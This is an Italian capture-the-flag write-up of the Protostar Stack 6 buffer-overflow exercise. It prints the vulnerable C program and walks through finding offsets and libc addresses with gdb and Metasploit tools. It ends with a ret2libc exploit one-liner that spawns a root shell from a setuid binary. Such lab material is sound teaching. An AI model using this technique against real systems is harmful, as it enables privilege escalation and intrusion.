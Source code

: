 #### Introduzione
Protostar risulta essere una macchina virtuale contenente esercizi di sicurezza. Precisamente introduce problemi di danneggiamento della memoria di base come “buffer overflow", “format strings” e “sfruttamento dell’heap in un sistema Linux vecchio stile”. Per “vecchio stile” intendiamo un sistema che non presenta alcuna forma di moderni sistemi di mitigazione abilitata.
Per chiarezza, ciascun esercizio corrisponde ad un livello, per un totale di 24 esercizi suddivisi per temi.
In questo documento tratteremo dell’esercizio Stack 6, legato alla tematica “Stack - Based Buffer Overflow”. In particolare, introdurremo l’esercizio in sé, due possibili soluzioni per vincere la CTF e, infine, eventuali mitigazioni da applicare per evitare che l’attacco avvenga con successo.

#### Traccia

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xbf000000) == 0xbf000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
}

int main(int argc, char **argv)
{
  getpath();
}
```
Questo livello può essere fatto in diversi modi. Si consiglia vivamente di sperimentare diversi modi per vincere la sfida.
Obiettivo della sfida: eseguire del codice arbitrario a tempo di esecuzione.
I passi da applicare per arrivare alla soluzione della sfida sono:
1.	Raccolta di informazioni sul sistema.
2.	Aggiornare l’albero d’attacco. 
3.	Individuare un percorso possibile e provare l’attacco.
4.	Se l’attacco riesce, la sfida è vinta. 
5.	Se l’attacco non riesce, ricominciare dal punto 1.

#### Raccolta delle informazioni
Il programma stack6 accetta input locali, ovvero accetta stringhe generiche inviate tramite tastiera o altro processo (pipe).
Inoltre, esaminando i metadati di stack6, attraverso il comando ls -l stack6 scopriamo che ha il bit SETUID acceso a ROOT (quindi eseguire il programma e vincere la sfida ci permette di ottenere i privilegi dell’utente ROOT).

####ret2libC
Ret2libc permette di aggirare il filtro sull’indirizzo di ritorno. La strategia sfrutta il fatto che la libreria libc viene caricata in memoria e utilizzata anche dal programma stesso.
In questo modo, è possibile impostare l'indirizzo di ritorno all'indirizzo di una qualsiasi funzione della libreria C.
Per prendere il controllo del programma useremo la funzione system(). Sovrascriveremo parte dello stack impostato prima di chiamare getpath() e inietteremo manualmente i frame dello stack per chiamare system(). In particolare, sovrascriveremo l'indirizzo di ritorno di getpath() con system(). Il payload da iniettare nel seguente modo:
"padding + system + exit+/bin/sh"
La funzione exit() viene inserita dopo la system() per assicurarsi che il programma termini correttamente dopo l'esecuzione del comando di shell. 
L'invocazione di exit() garantisce che il programma vittima non continui l'esecuzione oltre il punto in cui è stato sovrascritto il puntatore di ritorno. Subito dopo l'indirizzo di exit(), c'è un puntatore a una posizione di memoria che contiene la stringa /bin/sh, che è l'argomento che vogliamo passare alla funzione system().

padding + system + exit + /bin/sh

I caratteri di padding sono utili in quanto sovrascrivono buffer, spazio lasciato dall’allineamento dello stack, EBP salvato, permettendo di arrivare all’indirizzo di ritorno. Per fare ciò vediamo due tecniche:

1.	Prima tecnica utilizza il gdb (GNU Debugger)
GDB è il debugger predefinito di GNU/Linux che permette di visualizzare cosa accade in un programma durante l’esecuzione o al crash. Attraverso GDB, disassembliamo la funzione getpath e osserviamo l’istruzione lea (load effective address). 
L’istruzione lea carica -0x4c(%ebp) in EAX. Quindi la distanza tra l’inizio del buffer destinato a contenere l’input dell’utente e la cella contenente il saved EBP è 0x4c (=76) byte. Poiché la cella contenente il saved EBP è di 4 byte, servono 76+4=80 byte per raggiungere la cella dell’indirizzo di ritorno

2.	La seconda tecnica prevede l’utilizzo di Metaspoitable Framework. In particolare, utilizziamo due tool:
a.	msf-pattern_create: permette di generare pattern di byte personalizzati di lunghezza specifica.
b.	msf-pattern_offset: consente di identificare l'offset di memoria a cui si trova un valore specifico o un puntatore all'interno di un pattern generato con msf-pattern_create.
Dunque, creiamo dapprima il pattern, specificando una lunghezza sufficientemente grande per il nostro scopo (es. 120). Dopodiché, eseguiamo stack6 tramite gdb, quando ci chiede di inserire la path, incolliamo il pattern precedentemente creato.
Otterremo un messaggio di errore con un determinato indirizzo. A questo punto copiamo l’indirizzo ed effettuiamo una query al secondo tool nel seguente modo:

```console
$ msf-pattern_offset -l 120 -q 0x37634136
[*] Exact match at offset 80
```

Poi seguiamo i seguenti passi:
1.	Trovare l’indirizzo di system() tramite gdb. Inseriamo un breakpoint e partiamo con l’esecuzione. Dopodiché eseguiamo:
p system
0xb7ecffb0 <__libc_system>.
2.	Trovare l’indirizzo di exit:
p exit
0xb7ec60c0 <*__GI_exit>
3.	Troviamo /bin/sh all’interno della libc. Prima individuiamo l’indirizzo in cui inizia libc:
(gdb) info proc mapping
libc inizia all’indirizzo 0xb7e97000. Poiché /bin/sh è una stringa in libc, possiamo trovare l'offset dall'inizio del file:
strings -a -t  x /lib/libc-2.11.2.so | grep /bin/sh
11f3bfL /bin/sh
Avendo individuato l’offset, calcoliamo l’indirizzo di /bin/sh
(python) hex(0xb7e97000 + 0x11f3bfL)
'0xb7fb63bf'
4.	Possiamo verificarlo su gdb:
(gdb) x/s 0xb7fb63bf
0xb7fb63bf:  "/bin/sh"

EXPLOIT FINALE:
```console
python -c "print 'A' * 80 + '\xb0\xff\xec\xb7' + '\xc0\x60\xec\xb7' + '\xbf\x63\xfb\xb7'" > /tmp/exploit

(cat /tmp/exploit; cat) | ./stack6
```

Attraverso l’exploit finale riusciamo ad ottenere la shell con i permessi di ROOT e vincere la sfida.

